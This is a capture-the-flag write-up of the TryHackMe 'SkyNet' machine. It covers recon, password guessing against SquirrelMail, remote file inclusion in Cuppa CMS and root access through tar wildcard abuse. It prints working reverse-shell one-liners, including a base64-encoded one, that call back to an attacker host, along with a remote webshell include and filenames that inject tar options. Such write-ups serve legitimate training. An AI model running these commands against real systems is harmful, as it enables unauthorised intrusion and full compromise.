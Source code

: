 # SkyNet

## Recon

nmap revealed:

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-29 03:49 UTC
Nmap scan report for ip-10-10-20-144.eu-west-1.compute.internal (10.10.20.144)
Host is up (0.00057s latency).
Not shown: 65529 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
110/tcp open  pop3
139/tcp open  netbios-ssn
143/tcp open  imap
445/tcp open  microsoft-ds
MAC Address: 02:33:4B:B9:0C:CE (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 2.88 seconds
```

So, a website, a mail server and samba shares.

`dirb` on the website revealed a mail application, SquirrelMail, under `/squirrelmail`. The login page looked simple enough, but I needed a username and password.

`enum4linux` on the smb share revealed a username `milesdyson` and two shares: `/anonymous` and a restricted `/milesdyson`

## Hydra

Initially I tried `hydra`'ing the squirrel login using `milesdyson` and `rockyou.txt`. While that was running, I connected to the anonymous share and poked about. Apart from a huge and funny collection of machine learning books, there was a note saying all passwords had been reset, and three log files, of which only the first (`log1.txt`) had any content.

The log file contained a list of permutations on the word 'terminator'. On a whim, since `rockyou` wasn't getting me anywhere, I tried using the log file as a password source instead. The first entry `cyborg007haloterminator` worked :)

## Mail server, authed smb and hidden CMS

After logging in to squirrelmail, I found an email that contained a new SMB password:

```
Subject:   	Samba Password reset
From:   	skynet@skynet
Date:   	Tue, September 17, 2019 10:10 pm
Priority:   	Normal
Options:   	View Full Header |  View Printable Version  | Download this as a file

We have changed your smb password after system malfunction.
Password: )s{A&2Z=F^n_E.B`
```

I promptly used this with `smbclient -U milesdyson` to access the restricted share. In there, a level or two deep and buried in a huge set of markdown files I found a text file called `important.txt`

Inside this was a list of tasks:

```

1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
```

I browsed to that path and found a hidden page on the main site. A `dirb` on the page revealed `/45kra24zxs28v3yd/administrator`, which when browsed to, revealed itself as 'Cuppa CMS'.

## Remote file inclusion and shell

Cuppa is vulnerable to remote file inclusion, even unauthenticated, as described here on exploit-db: https://www.exploit-db.com/exploits/25971

I tested this with `/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd` and successfully got the contents of the local `passwd` file, all to the good. 

Next I quickly grabbed the user flag, guessing it would be as it is on most TryHackMe VMs: `/home/milesdyson/user.txt`. Success! `7ce5c2109a40f958099283600a9ae807`

The exploit would include anything, even a url, so I downloaded a simple request CMD php shell from github, spun up a `python3 -m http.server`, and then tested command execution: `http://10.10.20.144/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?cmd=whoami&urlConfig=http://10.10.151.47:8000/easy-simple-php-webshell.php` (note the `cmd` param before the `urlConfig`). That magic `www-data` showed up.

The next step was to get a reverse shell. I like to use this python one liner, when I find `nc -e` doesn't work:

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.151.47",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

To get it working with the exploit, I url-encoded the above using Burp, then I stuck it into the url cmd parameter while I had a netcat listener running. Boom! Into the system.

## cronjobs and admin

First I fixed up the shell with the standard python tty: `python -c "import pty; pty.spawn('/bin/bash')"`. Then I tried `sudo -l` but it required the www-data password. Next step was to browse about and see what I could see.

In `/home/milesdyson` there were a few funny things, including `.bash_history` symlinked to `/dev/null` (a way of obliterating any tracks? Must remember that...). More interesting was a folder owned by root called 'backups'. In there were two files: a `backup.tgz` file, and a `backup.sh`. I smelled a cron job.

Sure enough, `cat /etc/crontab` revealed that root called that backup script every minute. The contents of `backup.sh` was:

```
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

I couldn't append to the file, as I didn't have access to the folder. However, I *did* have access, write access, to `/var/www/html` as `www-data`.

But what could I do? I can't change root's `PATH`, so can't make them run something other than cd or tar. The `tar cf` had to be the key though, and so I looked about online. 

Sure enough, there is unexpected behaviour when using a wildcard with tar. Specifically, if files in the target directory are ALSO valid tar arguments, they get interpreted as such. I picked this up from this newsblog: https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/

Going to `/var/www/html`, I created three files:

```
touch ./--checkpoint=1
touch ./--checkpoint-action=exec=sh\ shell.sh
```

and then finally:

```
echo cHl0aG9uIC1jICdpbXBvcnQgc29ja2V0LHN1YnByb2Nlc3Msb3M7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTAuMTAuMTUxLjQ3Iiw0NDQ0KSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7IG9zLmR1cDIocy5maWxlbm8oKSwyKTtwPXN1YnByb2Nlc3MuY2FsbChbIi9iaW4vc2giLCItaSJdKTsn | base64 -d > shell.sh
```

This last takes a base 64 encoded python reverse shell one liner (as used before, above) and decodes it into a file.

Setting up a nc reverse listener, within a minute I had the magic pop of a root shell! The final flag was `3f0372db24753accc7179a282cd6a949`
